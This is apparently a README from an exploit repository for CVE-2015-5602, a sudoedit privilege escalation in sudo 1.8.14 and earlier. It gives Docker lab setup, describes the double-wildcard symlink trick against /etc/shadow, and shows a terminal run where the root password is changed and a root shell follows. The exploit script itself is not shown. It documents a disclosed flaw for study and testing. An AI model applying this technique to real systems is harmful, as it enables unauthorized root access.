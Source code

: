 # Sudo <=1.8.14 Local Privilege Escalation

Sudo (su "do") allows a system administrator to give certain users (or groups of users) the ability to run some (or all) commands as root while logging all commands and arguments.

## Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker build -t privesc/cve-2015-5602 .
    docker run --rm -it privesc/cve-2015-5602

And it will spawn a interactive shell with low user privileges.

## Vulnerable code

The bug was found in sudoedit, which does not check the full path if a wildcard is used twice (e.g. `/home/*/*/esc.txt`), this allows a malicious user to replace the esc.txt real file with a symbolic link to a different location (e.g. `/etc/shadow`).

Successfully exploiting this issue may allow an attacker to manipulate files and to gain root privileges on host system through symlink attacks.

## Exploit

To exploit this target just run:

    ./exploit.sh

If you are using this vulnerable image, you can just run:

    user@1cc9cd901b07:~$ sudo -l
    User user may run the following commands on 1cc9cd901b07:
        (root) NOPASSWD: sudoedit /home/*/*/esc.txt
    user@1cc9cd901b07:~$ ./exploit.sh 
    [+] CVE-2015-5602 exploit by t0kx
    [+] Creating folder...
    [+] Creating symlink
    [+] Modify EDITOR...
    [+] Change root password to: d03c09dc34c53657aff1f459a86b20ed
    [+] Done
    user@1cc9cd901b07:~$ su
    Password: 
    root@1cc9cd901b07:/home/user# id
    uid=0(root) gid=0(root) groups=0(root)
    root@1cc9cd901b07:/home/user#

## Credits

This flaw was found by Daniel Svartman.

## Disclaimer

This or previous program is for Educational purpose **ONLY**. Do not use it without permission. The usual disclaimer applies, especially the fact that me (t0kx) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears **NO** responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not t0kx's responsibility.
